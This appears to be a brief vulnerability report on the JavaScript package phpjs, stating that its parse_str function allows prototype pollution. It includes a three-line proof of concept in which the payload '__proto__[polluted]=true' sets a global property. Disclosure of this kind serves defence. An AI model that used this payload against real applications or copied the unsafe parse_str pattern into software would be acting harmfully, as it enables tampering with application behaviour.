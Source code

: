 # Description
```phpjs``` is a community build php binding in javasciript.
This package is vulnearble to ```prototype pollution``` via ```parse_str```. 
# Proof Of Concept
```
const phpjs = require('phpjs')
phpjs.parse_str("__proto__[polluted]=true",{}); 
console.log(polluted)
```
